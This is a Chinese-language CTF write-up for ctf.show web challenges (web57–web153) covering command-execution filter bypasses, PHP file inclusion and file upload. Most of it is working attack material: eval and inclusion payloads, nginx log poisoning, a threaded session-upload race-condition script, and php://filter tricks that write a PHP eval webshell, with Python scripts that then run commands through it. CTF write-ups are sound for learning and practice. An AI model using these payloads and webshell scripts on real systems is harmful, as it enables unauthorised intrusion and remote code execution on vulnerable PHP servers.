   
   '''
   import requests
   url="http://xxxxxxxxxxxx.challenge.ctf.show:8080/"
   params={"c":". /???/????????[@-[]"}
   r=requests.post(url=url,params=params,files={"file":("1.php","cat flag.php")})
   print(r.text)
   ```

   


### web57

1. 代码审计

   ```php
   // 还能炫的动吗？
   //flag in 36.php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c))
         //这里把数字，字母，通配符，点号都过滤了
       {
           system("cat ".$c.".php");
         //这里只要构造出36就可以了
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 基本都过滤了，但是提示`flag in 36.php`，并且`system(cat .php)`所以只要构造出36就可以了，参考了大佬的文章，`linux`中可以使用`$(())`参与运算，刚好这三个符号没有被过滤掉。

   >`$(())` 代表做一次运算，因为里面为空，也表示值为0
   >`$((~$(())))` 对0作取反运算，值为-1
   >`$(($((~$(())))$((~$(())))))` -1-1，也就是(-1)+(-1)为-2，所以值为-2
   >`$((~$(($((~$(())))$((~$(())))))))` 再对-2做一次取反得到1，所以值为1
   >
   >如果对取反不了解可以看一下原码，补码，反码，这里给个容易记得式子，如果对a按位取反，则得到结果为-(a+1)，也就是对0取反得到-1
   
   
   
3. 我们利用脚本进行构造

   ```python
   shell="$(("+"~$(("+"$((~$(())))"*37+"))))"
   print(shell)
   ```

   

   ```shell
   #payload
   $((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
   ```

   

### web58

1. 代码审计

   ```php
   <?php
   // 你们在炫技吗？
   if(isset($_POST['c'])){
           $c= $_POST['c'];
           eval($c);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. `eval`函数，应该可以直接连上工具读取，但是好像是考读取文件函数，因为禁用了命令执行函数，不能用`cat` `tac`了，使用读取文件函数进行读取flag

   ```php
   highlight_file($filename);
   show_source($filename);
   print_r(php_strip_whitespace($filename));
   print_r(file_get_contents($filename));
   readfile($filename);
   print_r(file($filename)); // var_dump
   fread(fopen($filename,"r"), $size);
   include($filename); // 非php代码
   include_once($filename); // 非php代码
   require($filename); // 非php代码
   require_once($filename); // 非php代码
   print_r(fread(popen("cat flag", "r"), $size));
   print_r(fgets(fopen($filename, "r"))); // 读取一行
   fpassthru(fopen($filename, "r")); // 从当前位置一直读取到 EOF
   print_r(fgetcsv(fopen($filename,"r"), $size));
   print_r(fgetss(fopen($filename, "r"))); // 从文件指针中读取一行并过滤掉 HTML 标记
   print_r(fscanf(fopen("flag", "r"),"%s"));
   print_r(parse_ini_file($filename)); // 失败时返回 false , 成功返回配置数组
   ```


### web59

1. 代码审计

   ```php
   <?php
   // 你们在炫技吗？
   if(isset($_POST['c'])){
           $c= $_POST['c'];
           eval($c);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 应该禁用了一些函数，测试可以用的payload

   ```shell
   c=show_source("flag.php");
   c=highlight_file("flag.php");
   c=print_r(php_strip_whitespace("flag.php"));
   c=include("flag.php");echo $flag;
   ```


### web60

1. 代码审计

   ```php
   <?php
   // 你们在炫技吗？
   if(isset($_POST['c'])){
           $c= $_POST['c'];
           eval($c);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 和原来一样，应该也是一样的禁用了一些函数`file` `file_get_contents` `readfile`，继续测试payload

   ```shell
   c=highlight_file('flag.php');
   c=show_source("flag.php");
   c=print_r(php_strip_whitespace("flag.php"));
   c=require('flag.php');echo $flag;
   ```


### web61

1. 代码审计

   ```php
   <?php
   // 你们在炫技吗？
   if(isset($_POST['c'])){
           $c= $_POST['c'];
           eval($c);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 和上题同理，测试可用的payload

   ```shell
   c=highlight_file("flag.php");
   c=show_source("flag.php");
   c=require('flag.php');echo $flag;
   c=print_r(php_strip_whitespace("flag.php"));
   ```


### web62

1. 代码审计

   ```php
    <?php
   // 你们在炫技吗？
   if(isset($_POST['c'])){
           $c= $_POST['c'];
           eval($c);
   }else{
       highlight_file(__FILE__);
   }
   
   ```

2. 同理，测试有用的`payload`

   ```shell
   c=highlight_file("flag.php");
   c=show_source("flag.php");
   c=require('flag.php');echo $flag;
   c=print_r(php_strip_whitespace("flag.php"));
   ```

   

### web63

1. 代码审计

   ```php
   <?php
   // 你们在炫技吗？
   if(isset($_POST['c'])){
           $c= $_POST['c'];
           eval($c);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 同理，测试可以用的payload

   ```shell
   c=show_source("flag.php");
   c=highlight_file("flag.php");
   c=require('flag.php');echo $flag;
   c=print_r(php_strip_whitespace("flag.php"));
   ```

   

### web64

1. 代码审计

   ```php
   <?php
   // 你们在炫技吗？
   if(isset($_POST['c'])){
           $c= $_POST['c'];
           eval($c);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 同理，测试可以用的payload

   ```shell
   c=show_source("flag.php");
   c=highlight_file("flag.php");
   c=require('flag.php');echo $flag;
   c=print_r(php_strip_whitespace("flag.php"));
   ```


### web65

1. 代码审计

   ```php
   <?php
   // 你们在炫技吗？
   if(isset($_POST['c'])){
           $c= $_POST['c'];
           eval($c);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 同理，测试可以用的payload

   ```shell
   c=show_source("flag.php");
   c=highlight_file("flag.php");
   c=require('flag.php');echo $flag;
   c=print_r(php_strip_whitespace("flag.php"));
   ```


### web66

1. 代码审计，跟原来没什么区别

   ```php
   <?php
   // 你们在炫技吗？
   if(isset($_POST['c'])){
           $c= $_POST['c'];
           eval($c);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里`show_source`被禁用掉了,我们换成`highlight_file`发现flag不在这里
   ```shell
   c=highlight_file("flag.php");
   ```

3. 用`scandir`搜索一下根目录，发现`flag.txt`

   ```shell
   c=print_r(scandir("/"));
   ```

4. 构造`payload`

   ```shell
   c=highlight_file("/flag.txt");
   ```


### web67

1. 代码审计，跟原来没什么区别

   ```php
   <?php
   // 你们在炫技吗？
   if(isset($_POST['c'])){
           $c= $_POST['c'];
           eval($c);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里`show_source`被禁用掉了,我们换成`highlight_file`发现flag不在这里

   ```shell
   c=highlight_file("flag.php");
   ```

3. 用`scandir`搜索一下根目录，发现`print_r`被禁用了替换成`var_dump`一个道理，发现`flag.txt`

   ```shell
   c=var_dump(scandir("/"));
   ```

4. 构造`payload`

   ```shell
   c=highlight_file("/flag.txt");
   ```


### web68

1. 上来就显示`highlight_file()`被禁用了，先看看目录有什么

   ```shell
   c=var_dump(scandir('/'));
   ```

2. 有flag.txt，尝试下其他函数

   ```shell
   c=include('/flag.txt');
   c=require("/flag.txt");
   ```


### web69

1. 上来就显示`highlight_file()`被禁用了，先看看目录有什么，发现`var_dump`也被禁用了，参考南方大佬读取目录的方式

   ```shell
   print_r(glob("*")); // 列当前目录
   print_r(glob("/*")); // 列根目录
   print_r(scandir("."));
   print_r(scandir("/"));
   $d=opendir(".");while(false!==($f=readdir($d))){echo"$f\n";}
   $d=dir(".");while(false!==($f=$d->read())){echo$f."\n";}
   $a=glob("/*");foreach($a as $value){echo $value."   ";}
   $a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
   ```

2. 因为`print_r`也被禁用了，所以可以用后面的几种方式，原理是通过遍历数组的形式进行读取

   ```shell
   c=$d=opendir("/");while(false!==($f=readdir($d))){echo"$f\n";}
   ```

3. 读取`flag.txt`

   ```shell
   c=include('/flag.txt');
   ```


### web70

1. 同`web69`可以用后面的几种方式，原理是通过遍历数组的形式进行读取

   ```shell
   c=$d=opendir("/");while(false!==($f=readdir($d))){echo"$f\n";}
   ```

2. 读取`flag.txt`

   ```shell
   c=include('/flag.txt');
   ```


### web71

1. 这里提供了源码，代码审计一波

   ```php
   <?php
   error_reporting(0);
   ini_set('display_errors', 0);
   // 你们在炫技吗？
   if(isset($_POST['c'])){
           $c= $_POST['c'];
           eval($c);
           $s = ob_get_contents();//这里得到缓冲区的数据
           ob_end_clean();//会清除缓冲区的内容，并将缓冲区关闭，但不会输出内容。
           echo preg_replace("/[0-9]|[a-z]/i","?",$s);//正则过滤并对过滤的内容进行替换
   }else{
       highlight_file(__FILE__);
   }
   
   ?>
   
   你要上天吗？
   ```

2. 这里可以利用`exit()`停止后面的程序，不然的话就会被正则过滤替换成`?`

   ```shell
   c=require("/flag.txt");exit();
   ```


### web72

不会

### web73

1. 没有源码，提示`highlight_file`被禁用，这里老样子先查看下flag位置,`exit()`结束掉后面的程序

   ```shell
   c=$d=opendir("/");while(false!==($f=readdir($d))){echo"$f\n";};exit();
   ```

2. 出来了个`flagc.txt`，`include`包含一下

   ```shell
   c=include("/flagc.txt");exit();
   ```


### web74

1. 与上一题`web73`同理，查看下`flag`位置

   ```shell
   c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");};exit();
   ```

2. 出来了`flagx.txt`，`include`进行包含一下

   ```shell
   c=include("/flagx.txt");exit();
   ```


## 4.文件包含

### web78

1. 代码审计

   ```php
    <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       include($file);
     //文件包含漏洞
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 利用`php://input`伪协议读取数据

   ```shell
   ?file=php://input
   
   #POST数据
   <?php system('ls');?>
   <?php system('cat flag.php');?>
   ```

   

### web79

1. 代码审计

   ```php
    <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       $file = str_replace("php", "???", $file);
     //这里对file变量里的php替换成???
       include($file);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里对变量里的`php`进行了过滤，所以不能考虑`php`伪协议，考虑用`data`伪协议进行读取

   ```shell
   ?file=data://text/plain;base64,<?php system('ls');?>
   
   #base64进行编码
   ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOz8%2b
   ```

   

   ```shell
   ?file=data://text/plain;base64,<?php system('cat flag.php');?>
   
   #base64进行编码
   ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
   ```

   


### web80

1. 代码审计

   ```php
    <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       $file = str_replace("php", "???", $file);
       $file = str_replace("data", "???", $file);
     //在上题基础上，还过滤了data
       include($file);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 根据提示包含日志文件，访问` ?file=/var/log/nginx/access.log`，发现有`User-Agent`回显

   

3. 这里利用日志文件的`User-Agent`作为写入点，要重发几次

   ```shell
   GET /?file=/var/log/nginx/access.log HTTP/1.1
   Host: 884008a9-56e7-4131-a23f-2a24d06688ae.challenge.ctf.show:8080
   #User-Agent写入点
   User-Agent: <?php system('ls');?>
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Connection: close
   Cookie: UM_distinctid=179eac647a5115-07272ce03102d18-445567-1aeaa0-179eac647a66e6
   Upgrade-Insecure-Requests: 1
   Pragma: no-cache
   Cache-Control: no-cache
   ```

   

   ```shell
   GET /?file=/var/log/nginx/access.log HTTP/1.1
   Host: 884008a9-56e7-4131-a23f-2a24d06688ae.challenge.ctf.show:8080
   #User-Agent写入点
   User-Agent: <?php system('cat fl0g.php');?>
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Connection: close
   Cookie: UM_distinctid=179eac647a5115-07272ce03102d18-445567-1aeaa0-179eac647a66e6
   Upgrade-Insecure-Requests: 1
   Pragma: no-cache
   Cache-Control: no-cache
   ```

   

4. 远程文件包含写🐎，应该也可以，可以尝试下。

5. 后面测试了，可以用`php`伪协议大小写进行绕过

   ```php
   ?file=Php://input
   
   #POST提交
   <?php system('tac fl0g.php')?>
   ```

   


### web81

1. 代码审计

   ```php
    <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       $file = str_replace("php", "???", $file);
       $file = str_replace("data", "???", $file);
       $file = str_replace(":", "???", $file);
       include($file);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里把`:`给过滤了，伪协议就用不了，利用`nginx`日志包含吧，之前是手动发包，接下来用脚本来跑

   ```python
   # -*- coding: utf-8 -*-
   '''
   @Time : 2021/7/7 15:57
   @Author : Seals6
   @File : web81.py
   @contact: 972480239@qq.com
   @blog: seals6.github.io
   
   -*- 功能说明 -*-
   
   -*- 更新说明 -*-
   
   '''
   import requests
   url="http://0a7817f5-a384-4d5b-bfbf-9767f75dd5a5.challenge.ctf.show:8080/"
   headers={
       #'User-Agent':"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0<?php system('ls');?>"
     
       'User-Agent':"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0<?php system('tac fl0g.php');?>"
   }
   params={"file":"/var/log/nginx/access.log"}
   
   #根据个人需要是否用代理
   #proxies = {'http': '127.0.0.1:8080'}
   r=requests.get(url=url,params=params,headers=headers,proxies=proxies)
   print(r.url)
   print(r.text)
   ```


### web82

1. 代码审计

   ```php
    <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       $file = str_replace("php", "???", $file);
       $file = str_replace("data", "???", $file);
       $file = str_replace(":", "???", $file);
       $file = str_replace(".", "???", $file);
       include($file);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里将`:`和`.`号过滤后，`php`伪协议不能用，后缀名文件也被过滤了，所以要利用`session`文件进行文件包含利用，这里要用到`PHP_SESSION_UPLOAD_PROGRESS`文件上传进度，进行文件包含利用，具体原理解释看后面的参考文章。

3. 简单介绍一下`PHP_SESSION_UPLOAD_PROGRESS`，这个功能是在`php5.4`版本添加的，我们来看一下`php.ini`默认配置文件

   >1. session.upload_progress.enabled = on
   >2. session.upload_progress.cleanup = on
   >3. session.upload_progress.prefix = "upload_progress_"
   >4. session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
   >5. session.upload_progress.freq = "1%"
   >6. session.upload_progress.min_freq = "1"
   >7. session.use_strict_mode=off

   (1)`enabled=on`表示当浏览器向服务器`POST`发送一个文件名为`[session.upload_progress.name]同名变量时`会向`session`中将此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中。

   (2)`cleanup=on`当文件上传完成后，会立即清空对应session文件中的内容

   (3)+(4)是`session`对应文件中的键名

   (7)`session.use_strict_mode=off`是指Cookie中`sessionid`可控，当我们自行设置`PHPSESSID=flag`时，PHP将会在服务器上创建一个文件：`/tmp/sess_flag`。即使此时用户没有初始化Session，PHP也会自动初始化Session。  并产生一个键值，这个键值有ini.get("session.upload_progress.prefix")+由我们构造的session.upload_progress.name值组成，最后被写入sess_文件里。

4. 所以当我们构造`PHP_SESSION_UPLOAD_PROGRESS`上传完成后，默认情况下就会立即清空`session`内容，那如何利用文件包含呢，就要用到条件竞争了，不断上传，不断请求`/tmp/sess_xxx`文件

5. 接下来我讲讲手动发包和脚本来做，首先制作一个`upload`上传表单

   ```html
   <!DOCTYPE html>
   <html lang="en">
   <head>
       <meta charset="UTF-8">
       <title>session upload</title>
   </head>
   <body>
     <!--修改服务器URL地址-->
   <form action="" method="POST" enctype="multipart/form-data">
     <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
     <input type="file" name="file1" />
     <input type="submit" />
   </form>
   </body>
   </html>
   ```

6. 抓包，添加`Cookie:PHPSESSID=flag`，此时PHP将会在服务器上创建一个文件：`/tmp/sess_flag`，并在`PHP_SESSION_UPLOAD_PROGRESS`下添加恶意命令，一定要添加文件上传，不然不会将文件详细内容写入到`session`文件中

   

7. 构造访问`file=/tmp/sess_flag`包，利用`intruder`进行条件竞争，不断上传，不断访问

   
   
   
   
8. 这时就可以看到`fl0g.php`，重新构造命令，条件竞争上传获取就可以了
   
   
   
   
   
9. 接下来用脚本进行实现

   ```python
   # -*- coding: utf-8 -*-
   '''
   @Time : 2021/7/7 17:32
   @Author : Seals6
   @File : web82.py
   @contact: 972480239@qq.com
   @blog: seals6.github.io
   
   -*- 功能说明 -*-
   
   -*- 更新说明 -*-
   
   '''
   import io
   import requests
   import threading
   
   sessid = 'flag'
   data = {"cmd": "system('cat fl0g.php');"}
   #自行修改
   url = ""
   
   def write(session):
       while True:
           f = io.BytesIO(b'a' * 1024 * 50)
           resp = session.post(url,
                               data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'},
                               files={'file': ('1.txt', f)}, cookies={'PHPSESSID': sessid})
   
   
   def read(session):
       while True:
           resp = session.post(url+'?file=/tmp/sess_' + sessid,data=data)
           if '1.txt' in resp.text:
               print(resp.text)
               event.clear()
           else:
               pass
   
   
   if __name__ == "__main__":
       event = threading.Event()
       with requests.session() as session:
           for i in range(1, 30):
               threading.Thread(target=write, args=(session,)).start()
   
           for i in range(1, 30):
               threading.Thread(target=read, args=(session,)).start()
       event.set()
   ```

   

参考文章：

   [利用session.upload_progress进行文件包含和反序列化渗透](https://www.freebuf.com/vuls/202819.html)

   [Session 上传进度](https://www.php.net/manual/zh/session.upload-progress.php)

   [npfs-利用PHP_SESSION_UPLOAD_PROGRESS进行文件包含](https://www.cnblogs.com/NPFS/p/13795170.html)

   

### web83

1. 代码审计

   ```php
   <?php
   session_unset();
   session_destroy();
   //销毁了session
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       $file = str_replace("php", "???", $file);
       $file = str_replace("data", "???", $file);
       $file = str_replace(":", "???", $file);
       $file = str_replace(".", "???", $file);
   
       include($file);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 只是访问时销毁了`session`，但是仍然可以进行重新创建，可以利用`web82`脚本进行条件竞争


### web84

1.  代码审计

   ```php
   <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       $file = str_replace("php", "???", $file);
       $file = str_replace("data", "???", $file);
       $file = str_replace(":", "???", $file);
       $file = str_replace(".", "???", $file);
       system("rm -rf /tmp/*");
     //删除了/tmp/sess_临时session文件
       include($file);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 只是删除临时文件，仍然可以用`web82`的条件竞争脚本


### web85

1. 代码审计

   ```php
    <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       $file = str_replace("php", "???", $file);
       $file = str_replace("data", "???", $file);
       $file = str_replace(":", "???", $file);
       $file = str_replace(".", "???", $file);
       if(file_exists($file)){
           $content = file_get_contents($file);
           if(strpos($content, "<")>0){
               die("error");
           }
           include($file);
       }
       
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 还是`web82`的原理，但是这里会检测生成的`/tmp/sess_xxxx`文件是否有`<`，如果有就会停止，所以原来的脚本脚本竞争很难成功，我们优化一下，直接构造命令，不再写🐎

   ```python
   # -*- coding: utf-8 -*-
   '''
   @Time : 2021/7/8 16:49
   @Author : Seals6
   @File : web85.py
   @contact: 972480239@qq.com
   @blog: seals6.github.io
   
   -*- 功能说明 -*-
   
   -*- 更新说明 -*-
   
   '''
   import io
   import requests
   import threading
   url = 'http://771fcdbe-7f88-48f1-ba7d-c2df30183f61.challenge.ctf.show:8080/'
   
   def write(session):
       data = {
           'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("tac f*");?>seals6'
       }
       while True:
           f = io.BytesIO(b'a' * 1024 * 10)
           response = session.post(url,cookies={'PHPSESSID': 'flag'}, data=data, files={'file': ('dota.txt', f)})
   def read(session):
       while True:
           response = session.get(url+'?file=/tmp/sess_flag')
           if 'seals6' in response.text:
               print(response.text)
               break
           else:
               print('retry')
   
   if __name__ == '__main__':
       session = requests.session()
       for i in range(30):
           threading.Thread(target=write, args=(session,)).start()
       for i in range(30):
           threading.Thread(target=read, args=(session,)).start()
   ```


### web86

1. 代码审计

   ```php
    <?php
   define('还要秀？', dirname(__FILE__));
   set_include_path(还要秀？);
   //定义了一个包含路径，但是flag脚本路径就在此目录
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       $file = str_replace("php", "???", $file);
       $file = str_replace("data", "???", $file);
       $file = str_replace(":", "???", $file);
       $file = str_replace(".", "???", $file);
       include($file);
   
       
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这个路径刚好就是flag的目录，所以直接`web82`的条件竞争脚本即可


### web87

1. 代码审计

   ```php
    <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       $content = $_POST['content'];
       $file = str_replace("php", "???", $file);
       $file = str_replace("data", "???", $file);
       $file = str_replace(":", "???", $file);
       $file = str_replace(".", "???", $file);
       file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
   
       
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里要绕过死亡`die`程序，因为没有绕过的话，代码就结束了，不会执行我们的马儿，有三种方法，详细原理可参考`P神-php://filter妙用`文章，放在了参考文章后面。因为php版本太高的原因，第二种`strip_tag`不能使用，先讲讲使用`base64`编码的方法。

3. base64编码中只包含64个可打印字符，而PHP在解码base64时，遇到不在其中的字符时，将会跳过这些字符，仅将合法字符组成一个新的字符串进行解码。所以`<?php die('大佬别秀了');?>`对其解码后，只有`phpdie`六个字符组成字符串进行解码，这样就可以绕过`die`

4. 刚好`file_put_contents`是写文件，文件名支持`php伪协议`，所以可以先将内容写进文件，再进行解码，刚好文件名要进行`url`解码一次，那我们将`php伪协议`双重编码一下，就可以绕过了。

   ```shell
   #1.双重url编码，burp就可以
   php://filter/write=convert.base64-decode/resource=shell.php
   
   %25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30
   
   #2.对传入的一句话木马进行base64编码
   <?php eval($_POST['cmd']);?>
   
   PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==
   
   #3.填充字符，避免一句话木马解码失败，解码后剩phpdie，一共6个字符，所以需要再加2个字符变8个
   #因为base64算法解码时是4个byte一组，也就是8个字符一组
   content=aaPD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==
   ```

   

5. 访问我们写好的`shell.php`，利用工具提交

   

6. 为了方便，写了一份py脚本

   ```python
   # -*- coding: utf-8 -*-
   '''
   @Time : 2021/7/8 17:53
   @Author : Seals6
   @File : web87.py
   @contact: 972480239@qq.com
   @blog: seals6.github.io
   
   -*- 功能说明 -*-
   
   -*- 更新说明 -*-
   
   '''
   import urllib
   import requests
   import base64
   from urllib.parse import urlparse
   
   url="http://4ef7df70-9999-44b6-b90a-d5fca5939633.challenge.ctf.show:8080/"
   str="<?php eval($_POST['abc']);?>"
   b64str="aa"+bytes.decode(base64.b64encode(str.encode("UTF-8")))
   # print(b64str)
   data={"content":b64str}
   #这里只编码了一次，因为requests提交时会再编码一次
   tmp_prefix="%70%68%70%3a%2f%2f%66%69%6c%74%65%72%2f%77%72%69%74%65%3d%63%6f%6e%76%65%72%74%2e%62%61%73%65%36%34%2d%64%65%63%6f%64%65%2f%72%65%73%6f%75%72%63%65%3d%73%68%65%6c%6c%2e%70%68%70"
   params={"file":tmp_prefix}
   
   while True:
       r=requests.post(url=url,params=params,data=data)
       # print(r.url)
       r2=requests.get(url=url+"shell.php")
       shell={"abc":input("[*]请输入代码执行内容: ")+";"+"echo '123';"}
       if r2.status_code==200:
           print("[*]"+"-"*10+"done"+"-"*10)
           r3=requests.post(url=url+"shell.php",data=shell)
           if '123' in r3.text:
               print(r3.text)
           else:
               print("retry")
   ```

   

7. 这里讲讲`rot-13`的方法，原理和上面类似，核心是将“死亡exit”去除。`<?php exit; ?>`在经过rot13编码后会变成`<?cuc rkvg; ?>`，在PHP不开启short_open_tag时，php不认识这个字符串，当然也就不会执行了

   ```shell
   #1.先将伪协议进行双重编码
   php://filter/write=string.rot13/resource=2.php
   
   %25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%65%25%37%32%25%36%66%25%37%34%25%33%31%25%33%33%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%32%25%32%65%25%37%30%25%36%38%25%37%30
   
   #2.将我们的一句话木马rot13编码，这样写文件之后会被解回来
   <?php eval($_POST['abc']);?>
   
   <?cuc riny($_CBFG['nop']);?>
   ```

   

8. 访问我们的马儿，工具提交就行

   

参考文章：

[P神-谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)


### web88

1. 代码审计

   ```php
    <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file))
         //过滤了一堆，但是data伪协议没有过滤
       {
           die("error");
       }
       include($file);
   }else{
       highlight_file(__FILE__);
   }
   
   ```

2. 可以利用`data伪协议`，但是base64编码后要注意不能有`+` 和`=`

   ```shell
   <?php system('ls');?>
   
   #base64编码后
   PD9waHAgc3lzdGVtKCdscycpOz8+
   
   #有+号过滤后，在解码就不能执行代码了，填充一下,再编码
   <?php system('ls');echo "123";?>
   PD9waHAgc3lzdGVtKCdscycpO2VjaG8gIjEyMyI7Pz4=
   
   #去掉填充=号，不影响解码
   PD9waHAgc3lzdGVtKCdscycpO2VjaG8gIjEyMyI7Pz4
   
   #payload
   ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpO2VjaG8gIjEyMyI7Pz4
   
   ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmwqJyk7ZWNobyAiMTIzIjs/Pg
   ```


### web116

1. 打开链接，是电影混剪，把视频下载下来，扔进`010`发现有个`png`是源码，老杂项选手了

   

2. 抓包`?file=flag.php`，不知道为什么一定要抓包才会回显，离谱建议多试试


### web117

1. 代码审计

   ```php
    <?php
   highlight_file(__FILE__);
   error_reporting(0);
   function filter($x){
       if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
           die('too young too simple sometimes naive!');
       }
   }
   $file=$_GET['file'];
   $contents=$_POST['contents'];
   filter($file);
   file_put_contents($file, "<?php die();?>".$contents);
   
   ```

2. 原理和`web87`类型，需要绕过`die`死亡程序，但是这次对，传输的内容进行了，不能使用`base64`和`rot-13`了，采用新的方法，原理在下面参考文章中，这里因为比较繁琐，没有手工去做，用脚本写的。

   ```python
   # -*- coding: utf-8 -*-
   '''
   @Time : 2021/7/9 11:36
   @Author : Seals6
   @File : web117.py
   @contact: 972480239@qq.com
   @blog: seals6.github.io
   
   -*- 功能说明 -*-
   
   -*- 更新说明 -*-
   
   '''
   import requests
   url="http://3b868af7-b026-4a3a-a7f9-35982c1d42fa.challenge.ctf.show:8080/"
   file_prefix="php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=shell.php"
   params={"file":file_prefix}
   data={"contents":'?<hp pvela$(P_SO[Tc"dm]";)>?'}
   
   r=requests.post(url=url,params=params,data=data)
   while True:
       r1=requests.get(url=url+"shell.php")
       if r1.status_code==200:
           print("done")
           shell = {"cmd": input("[*]请输入代码执行内容: ") + ";" + "echo '123';"}
           r1= requests.post(url=url + "shell.php", data=shell)
           if '123' in r1.text:
               print(r1.text)
           else:
               print("retry")
   
   else:
       print("retry")
   ```

   


参考文章：

[file_put_content和死亡·杂糅代码之缘](https://xz.aliyun.com/t/8163#toc-3)


## 5.php特性

## 6.文件上传

### web151

1. 绕过js前端验证，修改写好的一句话木马后缀为`ma.png`，`jpg`试过了不行

2. 抓包，重新改为`ma.php`，上传成功，访问路径，命令执行

   

   


### web152

1. 跟上题一样，修改为png后缀，抓包绕过js校验，在修改文件名为`ma.php`，木马连接，命令执行即可


### web153

1. 上题一样，修改为png后缀，抓包绕过js校验，修改后缀名发现可以使用`php3 php5 phphtml`特殊后缀名，但是中间件是`nginx`，这里要使用`.user.ini`文件来进行构造，具体原理看参考文章，与`.htaccess`类似

   > php.ini是php的一个全局配置文件，对整个web服务起作用；而.user.ini和.htaccess一样是目录的配置文件，.user.ini就是用户自定义的一个php.ini，通常用这个文件来构造后门和隐藏后门。

